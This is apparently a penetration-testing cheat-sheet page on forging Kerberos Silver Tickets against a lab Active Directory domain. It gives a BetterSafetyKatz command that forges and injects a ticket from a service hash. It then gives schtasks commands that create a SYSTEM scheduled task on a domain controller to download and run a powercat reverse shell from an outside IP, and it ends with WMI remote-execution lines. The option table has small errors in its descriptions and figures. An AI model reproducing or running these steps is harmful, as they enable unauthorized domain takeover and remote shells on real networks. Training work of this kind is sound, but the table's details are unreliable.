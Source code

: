 # Silver Ticket

Silver ticket is signed and encrypted by the hash of **service** account which makes it a valid **TGS** ticket.

## Create The Ticket

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden 
/User:Administrator /domain:dollarcorp.moneycorp.local
/sid:S-1-5-21-719815819-3726368948-3917688648 
/target:dcorp-dc.dollarcorp.moneycorp.local
/service:CIFS /rc4:e9bb4c3d1327e29093dfecab8c2676f6 
/startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<table><thead><tr><th width="318">Options</th><th width="431"></th></tr></thead><tbody><tr><td>kerberos::golden</td><td>Name of the module</td></tr><tr><td>/User:Administrator</td><td>Username for which the TGT is generated</td></tr><tr><td>/domain:</td><td>Domain FQDN</td></tr><tr><td>/sid:</td><td>SID of the domain</td></tr><tr><td>/target:</td><td>Target server FQDN</td></tr><tr><td>/service:</td><td>The SPN name of service for which TGS is to be created</td></tr><tr><td>/aes256:</td><td>AES256 keys of the krbtgt account</td></tr><tr><td>/id:500 /groups:512</td><td>Optional User and Group RID</td></tr><tr><td>/ptt</td><td>ptt: inject ticket to current process</td></tr><tr><td>/startoffset:0</td><td>Optional when the ticket is available in minutes. <br>Use negative for a ticket available from past and a larger number for future.</td></tr><tr><td>/endin:600</td><td>Optional ticket lifetime in minutes.  (default <strong>10</strong> years)<br>The default AD setting is 10 hours = 600 minutes</td></tr><tr><td>/renewmax:10080</td><td>Optional ticket lifetime with renewal in minutes. (default is <strong>10</strong> years)<br>The default AD setting is 7 days = 100800</td></tr></tbody></table>

## Abusing Services

### HOST

HOST Service permission allows to create scheduled tasks in remote computers\
The Silver ticket needs to be created with the NT Hash of the target machine

```bash
# Check you have permissions 
schtasks /S dcorp-dc.dollarcorp.moneycorp.local

#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "Job" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.83/powercat.ps1''')'"

#Run created schtask now
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "Job"
```

### HOST + RPCSS

With these tickets you can **execute WMI in the victim system**:

```bash
#Check you have permissions 
Invoke-WmiMethod -class win32_operatingsystem -ComputerName dcorp-dc

# Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$Program"

gwmi -class win32_operatingsystem -ComputerName dcorp-dc  
```
